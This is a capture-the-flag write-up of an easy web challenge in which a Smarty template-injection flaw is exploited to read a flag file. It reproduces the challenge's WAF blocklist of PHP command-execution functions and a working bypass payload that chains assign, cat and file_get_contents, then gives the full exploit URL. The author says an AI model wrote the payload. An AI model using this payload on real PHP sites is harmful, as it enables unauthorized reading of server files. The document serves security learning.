





# Web Challenge: Notebook

## Challenge Overview
- **Category:** Web
- **Difficulty:** Easy
- **Vulnerability:** Server-Side Template Injection Smarty Template (SSTI), WAF Bypass.



## Description
In this challenge, we are presented with a web application that takes user input and previews it using the Smarty templating engine. The application has implemented a custom Web Application Firewall (WAF) to prevent the execution of arbitrary PHP code and reading sensitive files.



## Challenge Analysis
First thing first is the interaction with the challenge surface, i am seeing a blog where i can post anything i type, so first what comes in my mind is the ssti. so i tested {{7*7}} then it returned to me 49. 



after that i checked which type is the server is it python for Jinja2 or Mako, but actually i found it is PHP!



and besides after that i went to the source code to see which type of template is it. i found Smarty! The application accepts user input through the `text` GET parameter and checks it against a blocklist before passing it to the Smarty `fetch` function and also the WAF blocklists.

```php
$BLOCKLIST = [
    'system', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open', 'pcntl_exec',
    'eval', 'assert', '\{php\}', '\{\/php\}', 'flag', '\/etc', 'proc', '\$smarty',
    'base64', 'hex2bin', 'call_user_func', 'preg_replace', 'create_function',
    'include', 'require'
];
```

The WAF also restricts the length of the input to 200 characters and the number of pipe characters (`|`) to a maximum of 3, effectively blocking standard Smarty filter chaining attacks.

```php
        } elseif (strlen($text) > $MAX_INPUT_LENGTH) {
            $preview = "Input too long. Max {$MAX_INPUT_LENGTH} characters.";
        } elseif (is_blocked($text, $BLOCKLIST)) {
            $preview = 'WAF: blocked pattern detected.';
        } elseif (substr_count($text, '|') > $MAX_PIPES) {
            $preview = 'WAF: too many filters.';
        } else {
            $tpl_string = "<h3>Comment Preview:</h3><p>{$text}</p>";
            // ...
            $preview = $smarty->fetch('string:' . $tpl_string);
```

## The Vulnerability
Since the input is passed directly to the Smarty templating engine without proper sanitization, this is a classic Server-Side Template Injection (SSTI).

However, traditional Smarty SSTI payloads rely on the built-in `$smarty` variable (e.g., `{$smarty.version}`) or PHP execution tags (`{php}system('id');{/php}`), all of which are blacklisted. Additionally, the word `flag`, common command execution functions like `system`, and `/etc` are blocked, so i need a way to read the flag without obstacles.

### Exploitation

The vulnerability occurs in `index.php` where the `action=preview` parameter reflects user input into a Smarty template using `string:` resource:

```php
$tpl_string = "<h3>Comment Preview:</h3><p>{$text}</p>";
$preview = $smarty->fetch('string:' . $tpl_string);
```

The WAF successfully blocks direct execution (like `system('id')`) and blocks the word `flag`. However, Smarty allows variable assignments and concatenation which can be used to bypass these filters. We can build the string `/flag.txt` dynamically and pass it to a PHP function that is not blocked, such as `file_get_contents`, using a Smarty modifier `|`, so i went to an ai assistance specially claude to build for me the payload cause i dont know the syntax of php smarty then it gives me this:

**Payload to read the flag:**

```smarty
{assign var="x" value="/f"|cat:"lag.txt"}{$x|file_get_contents}
```

This payload breaks down as follows:
1. `{assign var="x" value="/f"|cat:"lag.txt"}` - Assigns the concatenated string `/flag.txt` to the variable `$x`.
2. `{$x|file_get_contents}` - Uses the Smarty modifier syntax to pass `$x` to the `file_get_contents` function, returning the contents of the flag file while bypassing the WAF string matches.

### Final Exploit URL
```text
http://104.199.105.242:4242/?action=preview&text={assign%20var=%22x%22%20value=%22/f%22|cat:%22lag.txt%22}{$x|file_get_contents}
```

Once submitted, the WAF is bypassed, Smarty evaluates the injected string manipulation, and the `file_get_contents()` function executes, printing the flag in the response.
```text
leet{sm4r7y_7pl_1nj3c710n_n0_w4f_c4n_s70p_m3}
```



## Resources
a helpful articles about SSTI: 
- [YesWeHack: SSTI Exploitation](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation)
- [PortSwigger: Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
- [OWASP: Testing for SSTI](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
